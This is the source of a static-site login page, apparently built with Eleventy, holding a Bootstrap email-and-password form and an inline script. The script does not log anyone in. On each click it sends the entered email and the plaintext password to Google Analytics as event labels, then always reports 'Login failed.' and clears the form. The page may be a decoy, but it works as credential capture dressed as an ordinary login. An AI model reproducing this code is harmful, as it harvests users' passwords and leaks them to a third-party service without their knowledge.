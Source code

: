 ```yaml
---
layout: layouts/page.njk
permalink: /login/
eleventyExcludeFromCollections: true
---
```


<div class="sad-panda">
  <h2>
    Login
  </h2>
</div>

<form>
  <div class="mb-3">
    <label for="inpEmail" class="form-label">Email address</label>
    <input type="email" class="form-control" id="inpEmail">
  </div>
  <div class="mb-3">
    <label for="inpPassword" class="form-label">Password</label>
    <input type="password" class="form-control" id="inpPassword">
  </div>
  <div class="mb-3 form-check">
    <input type="checkbox" class="form-check-input" id="inpRemember">
    <label class="form-check-label" for="inpRemember">Remember me</label>
  </div>
  <button id="butLogin" class="btn btn-primary">Login</button>
</form>

<script>
  gtag('event', 'login', {
    event_category: 'shown',
    event_label: location.pathname
  });
  const inpEmail = document.querySelector('#inpEmail');
  const inpPass = document.querySelector('#inpPassword');
  const but = document.querySelector('#butLogin');
  but.addEventListener('click', () => {
    gtag('event', 'login', {
      event_category: 'email',
      event_label: inpEmail.value,
    });
    gtag('event', 'login', {
      event_category: 'password',
      event_label: inpPassword.value,
    });
    const msg = `Login failed.`;
    alert(msg);
    inpEmail.value = '';
    inpPassword.value = '';
  });
</script>
